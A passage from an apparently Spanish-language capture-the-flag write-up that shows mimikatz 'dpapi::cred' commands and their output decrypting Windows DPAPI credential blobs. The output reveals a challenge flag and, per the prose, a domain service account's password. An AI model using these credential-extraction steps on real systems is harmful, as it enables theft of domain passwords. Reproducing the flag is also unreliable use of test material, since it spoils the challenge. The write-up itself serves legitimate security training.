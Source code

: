 ```bash
  pbData             : b55d72a3e4f00c4b103e5a23e6cb4bc97594204460d87cb7555dc700cd8c304050f0bac19475c4e9b0935d8808d7e6ef67d37d11ac43c6018bc59a8de680548c5e6f5f5344b4a9f9f0ea6fc3d6d847a72fbb97a54845c627e37b7aa368b4d6d24831af7cc2bcec6ac7d376651adb734bf93091eb034722cdd99974da553fa741eb5124394189e6018ad07543f796102adc5e3f81b28082350cab75ca407025a449eafc18c5795fe15e497df6a330ed64ca37f94df1b32dfb592f0562d1fabcce
  dwSignLen          : 00000040 - 64
  pbSign             : a0a7a1f7462b93455e6673f33d45742931269a9eb9666515a04852bdfcb78ad570352e10c78805356f8baf0751f33dcfb70b29a9c49eb10ec14121e815381196

Decrypting Credential:
 * volatile cache: GUID:{87790867-a883-4a2d-a467-019c315e1104};KeyHash:dacd0e1ccaa03abd1ccb22ce058815624739a607
**CREDENTIAL**
  credFlags      : 00000030 - 48
  credSize       : 000000b6 - 182
  credUnk0       : 00000000 - 0

  Type           : 00000002 - 2 - domain_password
  Flags          : 00000000 - 0
  LastWritten    : 09/09/2019 10:08:32 a. m.
  unkFlagsOrSize : 00000040 - 64
  Persist        : 00000003 - 3 - enterprise
  AttributeCount : 00000000 - 0
  unk0           : 00000000 - 0
  unk1           : 00000000 - 0
  TargetName     : Domain:target=flag
  UnkData        : (null)
  Comment        : (null)
  TargetAlias    : (null)
  UserName       : flag
  CredentialBlob : HADES{V5C_r3ve4L_DPaP1_s3cret5}
  Attributes     : 0

mimikatz #
```

La otra credencial DPAPI nos muestra como nombre de usuario el usuario "test-svc" a nivel de dominio, y como contenido de la credencial encontramos su contraseña.

```bash
mimikatz # dpapi::cred /in:4A2EEB30EFC7958491B6578D9948EC7F
**BLOB**
  dwVersion          : 00000001 - 1
  guidProvider       : {df9d8cd0-1501-11d1-8c7a-00c04fc297eb}
  dwMasterKeyVersion : 00000001 - 1
  guidMasterKey      : {87790867-a883-4a2d-a467-019c315e1104}
  dwFlags            : 20000000 - 536870912 (system ; )
  dwDescriptionLen   : 0000003a - 58
  szDescription      : Enterprise Credential Data

  algCrypt           : 00006610 - 26128 (CALG_AES_256)
  dwAlgCryptLen      : 00000100 - 256
  dwSaltLen          : 00000020 - 32
  pbSalt             : fdb8e305b9dee0d4731a4e95af29273c2da220f0f7a5d41d83bfd14dff9f8cc5
  dwHmacKeyLen       : 00000000 - 0
  pbHmackKey         :
  algHash            : 0000800e - 32782 (CALG_SHA_512)
  dwAlgHashLen       : 00000200 - 512
  dwHmac2KeyLen      : 00000020 - 32
  pbHmack2Key        : c79494440e85f96dba9a8244ddef0a399ba44453dcfda0ae2a0e69349c0b0a0f
  dwDataLen          : 000000c0 - 192
```
